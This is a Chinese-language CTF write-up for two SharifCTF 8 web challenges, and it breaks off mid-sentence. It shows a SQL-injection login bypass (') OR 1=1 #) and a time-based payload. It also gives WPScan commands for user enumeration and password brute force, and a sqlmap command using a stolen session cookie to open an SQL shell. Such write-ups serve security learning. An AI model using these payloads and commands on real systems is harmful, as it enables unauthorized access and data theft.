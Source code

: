 # SharifCTF 8 2018 - Notes

## Hidden input
> Description:
>
> Login if you can :)

打開題目頁面
![image](6ZQPdRZ.png)

直接看 source code
```

<!DOCTYPE html>
<html>
<head>
	<title></title>
	<link href='fonts.css' rel='stylesheet' type='text/css'>
	<link rel="stylesheet" type="text/css" href="asset/style.css">
</head>
<body>
	<div class="logo"><div class="lspan">SharifCTF</div></div>
	<form method="POST" action="login.php">
		<div class="login-block">
			<h1>Login</h1>
			<input type="text" value="" placeholder="Username" id="Username" name="Username"/>
			<input type="password" value="" placeholder="Password" id="Password" name="Password"/>
			<input type="hidden" name="debug" id="debug" value="0">
			<button>Login</button>
		</div>
	</form>
</body>
</html>

```


可以看到有一個 hidden ，且 value = 0 ，把它改成 1 然後隨便輸入來登入可以看到
```
username: user
password: pass
SQL query: SELECT * FROM users WHERE username=('user') AND password=('pass')
```

根據上面的 SQL query ，改 
username: ') OR 1=1 # 
password 隨便打，就可以 get flag 了


## The news hacker
> Description:
>
> Only admin can see the flag :)
> Hint: Weak password!

[全部參考這篇來做](https://ctftime.org/writeup/8690)

打開題目頁面
![image](../img/hQCkguA.png)

使用 Wappalyzer 可以知道是 wordpress

針對 wordpress ，使用 kali linux 內建的 WPScan

```
$ wpscan --update
## 先更新 database

$ wpscan --url http://8082.ctf.certcc.ir/ --enumerate u --threads 30 > scan.txt
## --url 接要掃描的網站
## --enumerate u 用來枚舉 username
```

可以掃到有兩個帳號，admin 和 organizer

之後暴力窮舉密碼 (admin 試不出來)

這邊我的字典檔案使用的是 kali linux 內建的
```
$ wpscan --url http://8082.ctf.certcc.ir/ --wordlist /usr/share/john/password.lst --username organizer --threads 20
```

可以得到 organizer 的密碼是 password

那就先到 `/wp-login.php` 來登入，並存好 cookie
```
organizer%7C1518282442%7CLpoQxxxm9y0vr2X3mb0dDT4IbMkh0yaERjOdSAK14wv%7Caa3fae4b5e3143e691a52253318d57d9e7604870898dd2af69a76c4e3dce9f72
```

那在剛剛的 scan.txt 裡面，觀察 plugin 中的 event list ，有寫有 SQLi

就使用 sqlmap 來看看

位置是 `http://[wordpress_site]/wp-admin/admin.php?page=el_admin_main&action=edit&id=1 AND SLEEP(10)
`

```
$ sqlmap --url="http://8082.ctf.certcc.ir/wp-admin/admin.php?page=el_admin_main&action=edit&id=1" -p id --threads=10 --sql-shell --cookie="wordpress_eb2a34d2fb7f6ae7debb807cd7821561=organizer%7C1518050175%7C8XtpMJPPznkAada2MnyIamhMcBXMS0JDAtsuKJgrw8n%7C9539ffdec564f651fe34b71327d8bf2978fb1c93883ec9be36ef9aa65552fc8f"

## 因為要用這個 sql injection 需要有登入，所以要給 cookie
## 有漏洞的地方在 id，所以用 -p id 指定 
```

之後可以在 wp_posts 的 wp_content 中找到